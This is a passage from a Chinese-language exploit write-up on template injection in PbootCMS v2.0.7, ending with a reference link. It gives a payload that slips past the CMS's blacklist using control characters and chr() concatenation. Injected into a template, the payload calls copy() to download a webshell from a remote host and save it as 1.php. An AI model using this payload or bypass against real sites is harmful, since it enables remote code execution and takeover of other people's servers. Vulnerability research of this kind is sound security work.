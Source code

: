     将payload放入模板的`if`语句中

3.  模板注入

![](resource/PbootCMSv2.0.7模板注入/media/rId34.jpg)

4.  访问带有分页类且又能输出公司地址的地方

![](resource/PbootCMSv2.0.7模板注入/media/rId35.png)

Getshell成功！！！

### 补充

一开始在研究这个漏洞的时候，就觉得有点麻烦，又要上传图片马，又要构造图片马的路径，不能一个payload直接打，十分麻烦。

于是就跑去问了问P师傅\*\*（P牛，永远滴神！）\*\*

P师傅理解了我的需求后，直接甩了个payload给我

![](resource/PbootCMSv2.0.7模板注入/media/rId37.png)

看到后我才想起，以前就看过P师傅的一篇文章里面的一个trick：在一个函数的括号前面加入一些控制字符，PHP一样能识别改函数并执行。利用这个trick就可以执行任意函数了。

于是根据P师傅给的思路再结合程序本身的一些其他的黑名单限制，很快我就构造出了一个通用的Payload

    {pboot%3aif(copy%01(chr%01(104).chr%01(116).chr%01(116).(马赛克),chr%01(49).chr%01(46).chr%01(112).chr%01(104).chr%01(112)))}asdasdasd{/pboot%3aif}

利用一个`copy()`函数到远程服务器上下载一个webshell放在本地，这里的webshell地址通过`chr()`函数一个个还原出shell地址一个个拼接。

向模板注入该payload：

![](resource/PbootCMSv2.0.7模板注入/media/rId38.jpg)

访问前台触发点：

![](resource/PbootCMSv2.0.7模板注入/media/rId39.png)

则会去`http://mock.x.dnshia.cn/shell`下载webshell，并保存到`1.php`

![](resource/PbootCMSv2.0.7模板注入/media/rId40.png)

参考链接
--------

> https://xz.aliyun.com/t/7628
